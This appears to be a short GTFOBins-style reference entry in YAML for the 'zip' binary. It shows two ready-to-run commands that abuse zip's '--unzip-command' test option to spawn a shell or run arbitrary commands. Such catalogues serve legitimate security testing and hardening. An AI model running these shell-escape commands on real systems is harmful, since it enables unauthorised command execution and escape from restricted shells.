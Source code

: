 ```yaml
---
description: When dealing with zip, it may also be worth looking at the [zip-slip vulnerability](https://github.com/snyk/zip-slip-vulnerability).
functions:
  shell:
    - description: Can be used to execute arbitrary commands on a system and spawn shells either directly or otherwise.
      code: |
        zip /tmp/out.zip /etc/hostname -T --unzip-command="sh #"
  command:
    - description: Can be used to execute arbitrary commands on a system. Specifics vary depending on the version of zip used.
      code: |
        zip /tmp/out.zip /etc/hostname -T --unzip-command="uname -a #"
---
```


